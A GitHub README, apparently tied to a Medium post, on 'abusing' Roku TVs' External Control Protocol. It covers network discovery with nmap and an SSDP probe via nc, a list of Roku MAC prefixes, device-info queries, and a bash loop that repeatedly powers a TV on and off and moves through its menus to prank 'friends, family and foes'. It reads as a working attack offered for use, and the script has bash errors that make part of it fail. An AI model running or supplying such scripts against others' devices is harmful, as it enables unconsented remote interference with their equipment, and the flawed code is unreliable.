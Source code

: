 # :tv: Abusing ROKU APIs

____________________________________________________________________________________________________________________________________________________________________

![Roku](https://user-images.githubusercontent.com/72598486/133314573-0f0ebc16-9d51-4c1f-b2ad-1c7e15851214.png)

____________________________________________________________________________________________________________________________________________________________________

## Introduction: 

____________________________________________________________________________________________________________________________________________________________________
  I am excited to share how to successfully enumerate your network for Roku devices, issue External Control Protocol (ECP) commands to remotely manipulate televisions, and how to design custom scripts to automate messing with your friends! For more information, check out my Medium article: https://medium.com/@RoseSecurity/a-quick-guide-on-how-to-aggravate-friends-family-and-foes-37182230d7. 
____________________________________________________________________________________________________________________________________________________________________

## Enumerating Your Network for Roku Devices:

____________________________________________________________________________________________________________________________________________________________________

  Utilizing Nmap, we can issue the following command to enumerate our network for Roku devices by looking for service versions (-sV), operating systems (-O), and speeding up the scan by not resolving DNS (-n).

```
$ sudo nmap -sV -O -n 192.168.X.X/24
```

**Output of Nmap scan:**
```
Nmap scan report for 192.168.X.X
Host is up (0.010s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
7000/tcp open  rtsp    AirTunes rtspd 
9080/tcp open  http    Mongoose httpd
MAC Address: 10:59:32:XX:XX:XX (Roku)
```
  We see that Nmap identified the OUI of the MAC address, but I have provided a list of Roku MAC addresses to search for on your network!
  
**ROKU MAC Addresses**
  
```
roku, inc. 	d0:4d:2c 	
roku, inc. 	b0:a7:37 	
roku, inc 	b0:ee:7b 	
roku, inc 	d8:31:34 	
roku, inc 	10:59:32 	
roku, inc 	a8:b5:7c 	
roku, inc. 	b8:a1:75 	
roku, inc. 	88:de:a9 	
roku, inc. 	00:0d:4b 	
roku, inc 	20:ef:bd 	
roku, inc. 	08:05:81 	
roku, inc 	c8:3a:6b 	
roku, inc 	8c:49:62 	
roku, inc 	bc:d7:d4 	
roku, inc. 	ac:3a:7a 	
roku, inc. 	b8:3e:59 	
roku, inc. 	dc:3a:5e 	
roku, inc 	ac:ae:19 	
roku, inc. 	cc:6d:a0 	
roku, inc 	84:ea:ed 	
```

## More Enumeration
____________________________________________________________________________________________________________________________________________________________________

We can identify the device location, name, and several other pertinent fields such as supporting remote capabilities! Another way of enumerating Roku devices is by sending a request to the Simple Service Discovery Port (SSDP) multicast address and port 1900. We can do this by using Netcat:

```
$ nc -u 239.255.255.250 1900 < Roku_ECP_Enum.txt
```
The device will respond with this information which can also be observed in Wireshark:

```
HTTP/1.1 200 OK
Cache-Control: max-age=3600
ST: roku:ecp
Location: http://192.168.X.X:8060/
USN: uuid:roku:ecp:P0A070000007
``` 

Utilizing Nmap and Wireshark, we can easily identify the IP address of any Roku devices attached to the network, and if they support the use of ECPs, we can remotely view the XML file on the webserver of the device!
  
  ```
  http://192.168.X.X:8060/query/device-info
  ```
This will produce an XML page similar to the one below:
  
```
<device-info>
<serial-number>X004000B231</serial-number>
<device-id>S00820BB231</device-id>
<vendor-name>Roku</vendor-name>
<model-name>Roku Ninja</model-name>
<model-number>3930X</model-number>
<model-region>US</model-region>
<is-tv>false</is-tv>
<is-stick>false</is-stick>
<ui-resolution>1080p</ui-resolution>
<supports-ethernet>false</supports-ethernet>
<wifi-mac>10:59:32</wifi-mac>
<wifi-driver>realtek</wifi-driver>
<has-wifi-extender>false</has-wifi-extender>
<has-wifi-5G-support>true</has-wifi-5G-support>
<can-use-wifi-extender>true</can-use-wifi-extender>
<network-type>wifi</network-type>
<network-name>Hillary's Email Server</network-name>
<friendly-device-name>Roku LivingRoom</friendly-device-name>
<friendly-model-name>Roku Express</friendly-model-name>
<default-device-name>Roku Express - X004000AJDX1</default-device-name>
<user-device-name>Roku Master</user-device-name>
<user-device-location>LivingRoom</user-device-location>
<build-number>AEA.00E04209A</build-number>
<software-version>10.0.0</software-version>
<software-build>4209</software-build>
<secure-device>true</secure-device>
<language>en</language>
<country>US</country>
<locale>en_US</locale>
<time-zone-auto>true</time-zone-auto>
<time-zone>US/Eastern</time-zone>
<time-zone-name>United States/Eastern</time-zone-name>
<time-zone-tz>America/New_York</time-zone-tz>
<time-zone-offset>-240</time-zone-offset>
<clock-format>12-hour</clock-format>
<uptime>2912968</uptime>
<power-mode>PowerOn</power-mode>
<supports-suspend>false</supports-suspend>
<supports-find-remote>true</supports-find-remote>
<find-remote-is-possible>false</find-remote-is-possible>
<supports-audio-guide>true</supports-audio-guide>
<supports-rva>true</supports-rva>
<developer-enabled>false</developer-enabled>
<keyed-developer-id/>
<search-enabled>true</search-enabled>
<search-channels-enabled>true</search-channels-enabled>
<voice-search-enabled>true</voice-search-enabled>
<notifications-enabled>true</notifications-enabled>
<notifications-first-use>true</notifications-first-use>
<supports-private-listening>true</supports-private-listening>
<headphones-connected>false</headphones-connected>
<supports-ecs-textedit>true</supports-ecs-textedit>
<supports-ecs-microphone>true</supports-ecs-microphone>
<supports-wake-on-wlan>false</supports-wake-on-wlan>
<supports-airplay>true</supports-airplay>
<has-play-on-roku>true</has-play-on-roku>
<has-mobile-screensaver>false</has-mobile-screensaver>
<support-url>roku.com/support</support-url>
<grandcentral-version>5.5.62</grandcentral-version>
<trc-version>3.0</trc-version>
<trc-channel-version>4.2.3</trc-channel-version>
<davinci-version>2.8.20</davinci-version>
</device-info>
```
## Issuing Commands
____________________________________________________________________________________________________________________________________________________________________

There are numerous commands that can be issued via HTTP requests, so I have provided the table of potential ECPs that can be sent to the device:

![ECP](https://user-images.githubusercontent.com/72598486/133323989-a69daa5c-eec8-41be-b520-8c955c499204.png)

____________________________________________________________________________________________________________________________________________________________________

## An Example Script for Having Fun
____________________________________________________________________________________________________________________________________________________________________

```
#!/bin/bash
# How to mess with someone who has a Roku TV 101
Hahaha = 1
while [ $Hahaha -le 100 ]
do 
curl -d '' "http://192.168.X.X:8060/keypress/powerOn"
curl -d '' "http://192.168.X.X:8060/keypress/powerOff"
curl -d '' "http://192.168.X.X:8060/keypress/powerOn"
curl -d '' "http://192.168.X.X:8060/keypress/powerOff"
((Hahaha=Hahaha+1))
done
curl -d '' "http://192.168.X.X:8060/keypress/powerOn"
curl -d '' "http://192.168.X.X:8060/keypress/Home"
while [ $Hahaha -le 100 ]
do
curl -d '' "http://192.168.X.X:8060/keypress/left"
curl -d '' "http://192.168.X.X:8060/keypress/down"
((Hahaha=Hahaha+1))
done
echo "Can we still be friends?"
```

I hope that you learned something new, and if you need more information and resources on how to have more fun with these devices, check out https://developer.roku.com/docs/developer-program/debugging/external-control-api.md

Happy hunting!

wq!

